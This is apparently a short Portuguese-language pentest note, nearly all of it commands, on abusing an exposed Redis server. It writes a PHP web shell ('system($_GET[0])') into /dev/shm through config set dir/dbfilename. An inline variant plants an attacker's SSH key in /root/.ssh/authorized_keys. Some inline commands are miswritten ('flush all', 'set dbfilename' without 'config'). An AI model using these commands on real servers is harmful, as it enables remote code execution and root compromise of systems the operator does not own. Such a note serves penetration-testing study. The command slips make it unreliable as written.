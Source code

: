 Aqui usaremos o **Redis** para criar uma web shell, criamos em ``/dev/shm`` pois todos os usuários podem ler e escrever nessa pasta, é importante que a aplicação consiga chegar nesse arquivo para executa-lo.
```sh
$ redis-cli -h 10.0.10.5 -p 6379

10.0.10.5> AUTH redis-password
10.0.10.5> flushall
10.0.10.5> config set dir /dev/shm
10.0.10.5> config set dbfilename webshell.php
10.0.10.5> set test "<?php system($_GET[0]); ?>"
10.0.10.5> SAVE
```
#### Inline
```sh
$ redis-cli -h 127.0.0.1 -p 6378 flush all
$ redis-cli -h 127.0.0.1 -p 6378 config set dir /root/.ssh
$ redis-cli -h 127.0.0.1 -p 6378 set dbfilename authorized_keys
$ redis-cli -h 127.0.0.1 -p 6378 -x set key < my_key
$ redis-cli -h 127.0.0.1 -p 6378 save
```